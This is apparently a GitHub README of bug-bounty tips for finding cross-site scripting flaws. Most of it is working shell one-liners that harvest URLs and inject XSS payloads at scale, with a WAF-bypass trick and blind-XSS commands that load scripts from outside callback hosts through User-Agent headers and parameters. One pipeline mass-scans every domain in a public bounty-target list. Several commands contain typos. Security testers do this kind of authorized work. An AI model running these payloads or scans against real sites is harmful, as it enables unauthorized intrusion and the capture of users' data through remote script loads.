 
# 				XSS-Bug bounty tips

## TIP 1:
	
	1- Find Parameter and test any reflection on response.
	2- Try to find hidden input: [Here you can find blog to find hiddne parameter/input fields](https://portswigger.net/research/xss-in-hidden-input-fields)
	3- Find sink source for DOM XSS
	4- FInd any local stoage in jvascript.
	5- Test in cookie 
	6- Test in userAgent \ Header Injection
	
	If <script> - payload blocked by WAF; then try it -- ( sr<script>b1mal )


Find XSS with automation:
```bash
 echo http://example.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
install freq: - go get -u https://github.com/takshal/freq

  echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
 AirisXSS - Insatallation : https://github.com/ferreiraklet/airixss

 XSpear -u "http://domain.com/dir.php?param=123" -v 1

	success?next_url=javascript%3Aalert%2F**%2F(document.domain)
```

 ## TIP- 2:
       
      First you need to gather subdomain of target:
      $ subfinder -d example.com -o subdomain.txt
  
      The Next process was to find the number of sub-domains which are active,
      $ cat subdomains.txt | httprobe | tee -a host.txt

      Now gather some endpoint to the host.txt
      $ cat host.txt | waybackurl | tee -a endpoint.txt
   
      started to fuzz all the parameters to find xss vulnerability with the help of the tool qsreplace.
      $ cat endpoint.txt | qsreplace ‘“><img src=x onerror=alert(1)> | tee -a xss_fuzz.txt

      After executing the command now, I had to check the number of parameters have been reflecting our
        payload into a plain text weather or not.

      $ cat xss_fuzz.txt | freq | tee -a possible_xss.txt
      
            
      
## TIP-3:

      Oneliner XSS automation by 
     @BountyOverflow
 ```bash
 echo http://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">		<img src=x onerror=alert(1);>' | freq
```

## Finding XSS with onliner commadnline:
```bash
 echo www.example.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload-confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'

echo http://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">	<img 		src=x onerror=alert(1);>' | freq 

go run main.go test.php.vulnweb.com | tee testphp1.txt | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat 
combined.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n"
```

 Find XSS Tips:
 -------------
```bash
$ wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @

$ gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt

$ waybackurls http://testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b http://blindxss.xss.ht pipe > output.txt
	 
$ waybackurls http://testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
	
```

```bash
# Oneliner XSS at scale 
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b http://your.xss.ht -o xss.txt
```



## Blind XSS at scale 🔥🔥🔥
```bash
cat roots.txt | waybackurls | httpx -H "User-Agent: \"><script src=$YOUR_XSS_HUNTER></script>" 

#And monitor your xss hunter dashboard  
```
**Automate Blind-XSS**

**Match-& Replace burp suite option will use here Either you can use as automation with command line tool-**

1 - [Clne this tool](https://github.com/Leoid/MatchandReplace)

2- python generate.py -f parameters.txt -c "Blind-XSS" --rule "request_param_name" --replace https://abdulrahman2x.xxt  -x -o blind-xss.json

3- After getting your blind-xss output then add into your burp - IN Match & Replace section

4- Now after set parameter in burp then we need send urls to out burp to check blind xss. 

5- gospider -S hosts.txt -a -w --sitemap -r -d 8 -p http://127.0.0.1:8080 

**Same as SSRF**


 

 








